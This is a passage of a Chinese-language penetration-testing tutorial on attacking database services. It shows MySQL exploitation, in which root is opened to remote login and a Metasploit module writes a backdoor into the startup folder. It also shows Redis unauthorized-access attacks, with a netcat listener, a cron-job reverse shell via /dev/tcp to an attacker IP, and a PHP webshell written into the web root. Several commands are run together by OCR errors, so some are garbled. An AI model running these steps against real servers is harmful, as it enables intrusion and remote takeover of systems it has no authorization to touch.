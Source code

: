 导出自定义可执行文件到启动目录配合重启执行

先执行 sql 语句开启 root 外连：

GRANTALL PRIVILEGES ON *.* TO root@"%" IDENTIFIED BY "root";

flushprivileges;

Msf 使用内置的 windows/mysql/mysql_start_sql 模块，连接数据库，把后门写入服务器启动项：

useexploit/windows/mysql/mysql_start_up

setrhosts 192.168.202.1

setusername root

setpassword root

注意：mysql5.7 导出数据提示 --secure-file-priv 选项问题，查看 secure_file_priv 的值，默认为 NULL，表示限制不能导入导出，而 secure_file_priv 参数是只读参数，不能使用 setglobal 命令修改。所以我们需要打开 my.cnf 或 my.ini，加入以下语句后重启 mysql。

secure_file_priv=''

没有值时，表示不限制 mysqld 在任意目录的导入导出。

![](https://mmbiz.qpic.cn/mmbiz_png/Jvbbfg0s6ADPmHFz2qUd6yribKia4q80Lib0URqiaOStKCRiaeK65iayfHakKJk4tlKGS7Oju0IvbrapFy7lGu6kGqvA/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/Jvbbfg0s6ADPmHFz2qUd6yribKia4q80LibfG0FickEQGpLlvaNicaic2IUL3BazibDLcAulFANyznCtYqr1iaYznwMTzQ/640?wx_fmt=png)

### **3.3 Redis**

##### 未授权访问漏洞

Redis 未授权访问是由于自身配置不当所造成的，没有配置指定 ip 登录远程登录密码为空等，可以通过绑定数据库访问的 ip、设置数据库访问的密码、修改数据库服务运行账户的权限修补。

其漏洞利用方法也有好几种，可以利用计划任务来反弹一个 shell：

先在自己的服务器上监听一个端口：

nc-lvnp 7999

利用计划任务执行命令反弹 shell，依次执行以下命令反弹得到系统权限：

```
redis-cli-h 192.168.63.130
setx "\n* * * * * bash -i >& /dev/tcp/192.168.63.128/79990>&1\n"
configset dir /var/spool/cron/
configset dbfilename root
save
```

再用 crontab-l 查看 root 用户下的 crontab 任务。

同样可以通过通过漏洞写入文件，当 redis 权限不高时，并且服务器开着 web 服务，在 redis 有 web 目录写权限时，可以尝试往 web 路径写 webshell：

```
config set dir /var/www/html/
config set dbfilename shell.php
setx "<?php phpinfo();?>"
save
```
